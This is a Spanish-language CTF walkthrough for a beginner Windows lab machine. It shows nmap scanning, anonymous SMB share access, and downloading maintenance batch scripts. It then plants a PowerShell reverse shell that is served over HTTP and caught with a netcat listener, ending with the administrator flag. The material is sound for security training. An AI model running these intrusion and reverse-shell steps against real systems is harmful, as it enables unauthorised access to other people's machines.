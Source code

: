 

Creador: Oscar.
Fecha de creación 28/10/2024
Nivel: principiante. 


RECONOCIMIENTO
-------------------------------

```
arp-scan -I eth0 --localnet
```


![](./images/Pasted%20image%2020241122162501.png)

Hacemos el scaneo para conocer la ip de la víctima y nos sale: 

![](./images/Pasted%20image%2020241122162557.png)

La ip víctima es: 

```
192.168.1.56
```

Ahora lo que haremos con nmap un scaneo. 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 192.168.1.56
```

`-p-` ⮞ Aplicar reconocimiento a todos los puertos .

`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida .

`-sV` ⮞ Para realizar un escaneo en búsqueda de los servicios.

`-sC` ⮞ Para realizar un escaneo de los scripts básicos de reconocimiento. 

`--min-rate 5000` ⮞ para enviar paquetes más rápido.

`-n` ⮞ Para no aplicar la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro). 

`-vvv` ⮞ Conforme descubre un puerto nos lo muestra por pantalla .

`-Pn` ⮞ Ignora el descubrimiento de hosts mediante ping. 


![](./images/Pasted%20image%2020241122163043.png)


Tenemos un servidor de IIS. 

Nos vamos al puerto 80, http. 

![](./images/Pasted%20image%2020241122164044.png)

Un portafolio y noticias Tech. 
Tenemos que observar bien y podremos encontrar lo siguiente: 

![](./images/Pasted%20image%2020241122164338.png)

Daniel y luis deben de hacer una revisión con privilegios. 

Vamos a ver el servicio de smb. 

```
netexec smb 192.168.1.56 -u 'guest' -p '' 
```

Vemos que tenemos acceso compartidos. 

![](./images/Pasted%20image%2020241122165128.png)

Vamos a listarlos. 

```
netexec smb 192.168.1.56 -u 'guest' -p '' --shares
```

![](./images/Pasted%20image%2020241122165212.png)

Sólo podemos a acceder a compartido porque tenemos permiso de lectura y escritura. 

```
smbclient -U guest%123456 //192.168.1.56/Compartido
```


![](./images/Pasted%20image%2020241122170250.png)

Ya estamos en smb.


En el directorio **\Compartido\Proyecto\Quokka\Código** está lo que vamos a descargarnos :

copia.bat y mantenimiento.bat


![](./images/Pasted%20image%2020241122170553.png)

Nos los decargamos con get: 

```
get mantenimiento.bat
```

Nos salimos de smb.


Hacemos un cat a mantenimiento.bat.
Nos sale lo siguiente: 

![](./images/Pasted%20image%2020241122170831.png)

Creamos una shell ps1. 
Buscamos en git-hub revershell ps1 y pegamos el script en nuestro archivo que hemos creado. 

![](./images/Pasted%20image%2020241122171658.png)


Cambiamos la ip, la que es nuestra. Y le ponemos el puerto que queramos. 

```
python -m http.server 80
```


```
nc -lvnp 5555
```

![](./images/Pasted%20image%2020241122172723.png)

Tenemos la revershell en kali. 

Hacemos un dir. 

Nos vamos al directorio raíz. 

![](./images/Pasted%20image%2020241122173020.png)

Nos vamos al directorio de administrator y desktop. Tenemos el flag del admisnitrador. 

Y vamos a ver la flag de omar.

![](./images/Pasted%20image%2020241122173719.png)


